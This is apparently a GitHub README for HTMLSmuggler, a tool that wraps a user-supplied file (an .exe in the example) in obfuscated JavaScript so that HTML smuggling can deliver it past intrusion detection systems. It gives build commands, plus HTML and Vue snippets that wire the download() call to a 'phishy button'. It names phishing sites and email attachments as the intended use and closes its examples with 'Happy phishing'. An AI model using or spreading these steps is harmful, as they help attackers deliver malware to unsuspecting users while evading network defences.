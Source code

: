 # HTMLSmuggler ✉️

HTMLSmuggler - JS payload generator for IDS bypass and payload delivery via HTML smuggling.

## Description

The full explanation what is HTML Smuggling may be found [here](https://outflank.nl/blog/2018/08/14/html-smuggling-explained/).

The primary objective of HTML smuggling is to bypass network security controls, such as firewalls and intrusion detection systems, by disguising malicious payloads within seemingly harmless HTML and JavaScript code. By exploiting the dynamic nature of web applications, attackers can deliver malicious content to a user's browser without triggering security alerts or being detected by traditional security mechanisms. Thanks to this technique, the download of a malicious file is not displayed in any way in modern IDS solutions.

The main goal of HTMLSmuggler tool is creating an independent javascript library with embedded malicious user-defined payload. This library may be integrated into your phishing sites/email html attachments/etc. to bypass IDS and IPS system and deliver embedded payload to the target user system. An example of created javascript library may be found [here](examples/html/payload.umd.js).

## Features

* Built-in highly configurable JavaScript obfuscator that fully hides your payload.
* May be used both as an independent JS library or embedded in JS frameworks such as React, Vue.js, etc.
* The simplicity of the template allows you to add extra data handlers/compressions/obfuscations.

## Installation

1. [Install yarn](https://classic.yarnpkg.com/lang/en/docs/install/) package manager.
2. Install dependencies:

    ```bash
    yarn
    ```

3. Read help message.

    ```bash
    yarn build -h
    ```

    ```text
    Options:
      -p, --payload <string>  Path to payload file you want to smuggle
      -n, --name <string>     Name of file, that would be downloaded
      -c, --compress          Enable payload compression (gzip)
      -t, --type <string>     Contet-Type of downlonaded file (default: "application/octet-stream")
      -h, --help              Display help for command
    ```

## Usage

### Preparation steps

1. Modify (or use my) [javascript-obfuscator options](https://github.com/javascript-obfuscator/javascript-obfuscator#javascript-obfuscator-options) in `obfuscator.js`, my preset is nice, but very slow.
2. Compile your javascript payload:

    ```bash
    yarn build -p /path/to/payload -n file.exe -t "application/octet-stream" -c
    ```

3. Get your payload from `dist/payload.esm.js` or `dist/payload.umd.js`. After that, it may be inserted into your page and called with `download()` function.

> `payload.esm.js` is used in `import { download } from 'payload.esm';` imports (ECMAScript standart).
>
> `payload.umd.js` is used in html script SRC and `require('payload.umd');` imports (CommonJS, AMD and pure html).

### Pure HTML example

A full example may be found [here](examples/html/).

1. Do [preparation steps](#preparation-steps).
2. Import created script to html file (or insert it inline):

    ```html
    <head>
      <script src="payload.umd.js"></script>
    </head>
    ```

3. Call `download()` function from body:

    ```html
    <body>
      <button onclick="download()">Some phishy button</button>
    </body>
    ```

4. Happy phishing :)

### VueJS example

A full example may be found [here](examples/vuejs/).

1. Do [preparation steps](#preparation-steps).
2. Import created script to vue file:

    ```vue
    <script>
      import { download } from './payload.esm';
    </script>
    ```

3. Call `download()` function:

    ```vue
    <template>
      <button @click="download()">Some phishy button</button>
    </template>
    ```

4. Happy phishing :)

## FAQ

**Q**: I have an error `RangeError: Maximum call stack size exceeded`, how to solve it?

**A**: This [issue described here](https://github.com/javascript-obfuscator/javascript-obfuscator/issues/89). To fix it, try to disable `splitStrings` in `obfuscator.js` or make smaller payload (it's recommended to use up to 2 MB payloads because of this issue).

---

**Q**: Why does my payload build so long?

**A**: The bigger payload you use, the longer it takes to create a JS file. To decrease time of build, try to disable `splitStrings` in `obfuscator.js`. Below is a table with estimated build times using default `obfuscator.js`.

| Payload size | Build time |
| --- | --- |
| 525 KB | 53 s |
| 1.25 MB | 8 m |
| 3.59 MB | 25 m |
